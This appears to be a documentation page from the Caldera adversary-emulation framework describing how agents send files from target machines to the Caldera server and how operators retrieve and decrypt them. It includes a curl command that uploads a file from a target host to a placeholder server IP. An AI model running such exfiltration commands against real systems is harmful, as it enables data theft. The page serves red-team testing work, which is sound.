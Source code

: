 # Exfiltration

After completing an operation a user may want to review the data retrieved from the target system. This data is automatically stored on the Caldera server in a directory specified in [/conf/default.yml](Server-Configuration.md#configuration-file).

## Exfiltrating Files

Some abilities will transfer files from the agent to the Caldera server. This can be done manually with 
```yaml
curl -X POST -F 'data=@/file/path/' --header "X-Request-Id:`hostname`-#{paw}" http://server_ip:8888/file/upload
```
Note: localhost could be rejected in place of the server IP. In this case you will get error 7. You should type out the full IP.
These files are sent from the agent to server_ip/file/upload at which point the server places these files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-Configuration.md#configuration-file). By default it is set to `/tmp/caldera`.

## Accessing Exfiltrated Files

The server stores all exfiltrated files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-Configuration.md#configuration-file). By default it is set to `/tmp/caldera`.

Files can be accessed by pulling them directly from that location when on the server and manually unencrypting the files.

To simplify accessing exfiltrated files from a running caldera server, you can go the the advanced section in the Caldera UI and click on the 'exfilled files' section.

From there you can select an operation (or all) from the drop down to see a listing of all the files in the exfil folder corresponding to the operation (specifically works with sandcat agents or any other agent using the same naming scheme for file upload folder) or in the directory along with the option to select any number of files to download directly to your machine.

All downloaded files will be unencrypted before passing along as a download.

## Accessing Operations Reports

After the server is shut down the reports from operations are placed inside the directory specified by the [/conf/default.yml to key "reports_dir"](Server-Configuration.md#configuration-file). By default it is also set to `/tmp`.


## Unencrypting the files
The reports and exfiltrated files are encrypted on the server. To view the file contents the user will have to decrypt the file using /app/utility/file_decryptor.py . This can be performed with:

```shell
python /app/utility/file_decryptor.py --config /conf/default.yml _input file path_
```

The output file will already have the _decrypted tag appended to the end of the file name once the decrypted file is created by the python script.
